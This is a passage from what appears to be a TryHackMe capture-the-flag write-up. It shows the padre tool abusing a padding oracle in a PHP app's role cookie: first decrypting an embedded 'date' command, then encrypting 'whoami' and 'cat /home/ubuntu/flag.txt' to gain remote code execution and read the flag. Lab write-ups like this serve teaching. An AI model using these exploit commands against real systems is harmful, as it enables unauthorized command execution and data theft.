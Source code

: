 Now that we know the attack path, we need a tool to perform the attack, we can use this:

PADRE: https://github.com/glebarez/padre

In order to use the tool, we need cookies, let's submit the request to our proxy:

![](gitbook/cybersecurity/images/Pasted%20image%2020250611144442.png)

Get both cookies and use padre:

```bash
padre -cookie 'PHPSESSID=bvm7a460lof8s58df1cr0kq9cm; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' -u 'http://10.10.28.196:1337/dashboard.php?date=$' '2a1LzN11hzRQ2RKLfxISXUhCo4tNS7BGEhT4a7E7ITg='

[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: decrypt
[1/1] date +%Y\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08
```

Now, we can encrypt `whoami` to check if we can achieve `rce`:

```bash
padre -cookie 'PHPSESSID=bvm7a460lof8s58df1cr0kq9cm; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' -u 'http://10.10.28.196:1337/dashboard.php?date=$' -enc 'whoami'

[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: encrypt
[1/1] /72bsovoJoFlZXNlZW5ibA== 
```

Now, let's try it and check the response:

![](gitbook/cybersecurity/images/Pasted%20image%2020250611145137.png)

Nice, as seen we achieved RCE, let's get our final flag then:

```bash
padre -cookie 'PHPSESSID=bvm7a460lof8s58df1cr0kq9cm; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' -u 'http://10.10.28.196:1337/dashboard.php?date=$' -enc "cat /home/ubuntu/flag.txt"

[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: encrypt
[1/1] xIK95Ugkdek4rajb78dj6a8/m4PxZjfJxIPPCN2mrV5iZXNnZ2JmbA==
```

We get:

![](gitbook/cybersecurity/images/Pasted%20image%2020250611150141.png)

Got our flag:

```
THM{GOT_COMMAND_EXECUTION001}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250611150206.png)
